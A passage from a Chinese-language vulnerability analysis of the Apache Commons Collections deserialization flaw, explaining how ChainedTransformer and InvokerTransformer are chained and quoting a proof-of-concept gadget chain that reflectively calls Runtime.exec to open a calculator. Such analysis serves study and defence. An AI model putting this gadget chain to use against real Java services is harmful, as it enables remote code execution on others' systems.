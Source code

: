 该方法很简单，就是返回iConstant属性，该属性也为可控参数：

最后一个ChainedTransformer类很关键，我们先看一下它的构造函数：

![](/assets/apache-java10.png)

我们可以看出它传入的是一个Transformer数组，接下来看一下它的transform\(\)方法：

![](/assets/apache-java11.png)

这里使用了for循环来调用Transformer数组的transform\(\)方法，并且使用了object作为后一个调用transform\(\)方法的参数，结合PoC来看：

```
public static Object Reverse_Payload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /Applications/Calculator.app" }) };
```

我们构造了一个Transformer数组transformers，第一个参数是“new ConstantTransformer\(Runtime.class\)”，后续均为InvokerTransformer对象，最后用该Transformer数组实例化了transformerChain对象，如果该对象触发了transform\(\)函数,那么transformers将在内一次展开触发各自的transform\(\)方法，由于InvokerTransformer类的特性，可以通过反射触发漏洞。下图是触发后debug截图：
